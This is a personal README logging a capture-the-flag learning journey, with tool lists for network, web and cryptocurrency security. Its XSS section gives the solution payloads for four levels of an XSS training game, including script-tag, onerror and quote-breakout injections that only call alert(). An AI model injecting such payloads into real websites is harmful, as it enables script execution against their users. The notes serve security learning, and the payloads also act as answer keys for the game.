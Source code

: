 # My CTF Journey

Welcome to my Capture The Flag (CTF) learning journey! Here, I document the challenges I've solved and the skills I've gained in the world of cybersecurity.


## Network Security

### CTF 1

**Tools:**
- Nmap
- Wireshark
- Metasploit

**Knowledge Base:**
[Link to Network Security Knowledge Base](#)

---

## Web Application Security
### XSS
##### CTF 1 : [XSS-GAMES.APPSPOT](https://medium.com/@onehackman/learning-xss-part-1-reflected-xss-brief-concept-techniques-challenge-walkthrough-85f6b165541b)
**Level 1**
```javascript
<script>alert()</script>
```

**Level 2**
```javascript
<img src=x onerror=alert(1)>
```

**Level 3**
```javascript
https://xss-game.appspot.com/level3/frame#23' onerror=alert()>
```

```javascript
23' onerror=alert()>
```

**Level 4**
```javascript
1');alert('1
```

##### CTF 2
**Tools:**
- Burp Suite
- OWASP Zap
- SQLMap

**Knowledge Base:**
[Link to Web Application Security Knowledge Base](#)

---

## Cryptocurrency Security

### CTF 3

**Tools:**
- Ganache
- Remix IDE
- MythX

**Knowledge Base:**
[Link to Cryptocurrency Security Knowledge Base](#)

